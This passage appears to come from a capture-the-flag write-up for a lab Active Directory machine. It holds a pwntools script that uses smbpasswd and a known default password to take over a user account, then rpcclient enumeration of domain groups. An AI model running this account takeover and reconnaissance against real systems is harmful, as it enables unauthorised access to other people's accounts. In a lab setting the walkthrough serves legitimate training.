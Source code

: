 Note: There's a ~20 second window before the password is reset to its default, so we have to be quick. We can use the following script:

reset.py:
```
from pwn import *
import sys

if len(sys.argv) < 3:
        print('Usage: ' + sys.argv[0] + ' <username> <new password>')
        sys.exit()

username = sys.argv[1]
password = sys.argv[2]

io = process(['smbpasswd', '-U', username, '-r', '10.10.10.193'])
io.recvuntil('Old SMB password:')
io.sendline('Fabricorp01')
io.recvuntil('New SMB password:')
io.sendline(password)
io.recvuntil('Retype new SMB password:')
io.sendline(password)
trash = io.recvline()
finish = io.recvline()
success(str(finish)[2:-3])
```

To run the script:

```
python3 script.py bhult Xbx1233
[+] Starting local process '/usr/bin/smbpasswd': pid 29712
[+] Password changed for user bhult
```

After running the script against our target, we can quickly log in to smb and rpc to further enumerate the machine. None of these logins want to work with evil-winrm, so they may not be in the "Remote Management" group.

## Enumeration with RPCClient

We'll first see if we have any new users:

```
```

Then, we'll check the groups on the box:

```
rpcclient $> enumdomgroups                                
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]                                                          
group:[Domain Admins] rid:[0x200]                         
group:[Domain Users] rid:[0x201]                          
group:[Domain Guests] rid:[0x202]                         
group:[Domain Computers] rid:[0x203]                                                                                 
group:[Domain Controllers] rid:[0x204]                                                                               
group:[Schema Admins] rid:[0x206]                                                                                    
group:[Enterprise Admins] rid:[0x207]                                                                                
group:[Group Policy Creator Owners] rid:[0x208]                                                                      
group:[Read-only Domain Controllers] rid:[0x209]                                                                     
group:[Cloneable Domain Controllers] rid:[0x20a]          
```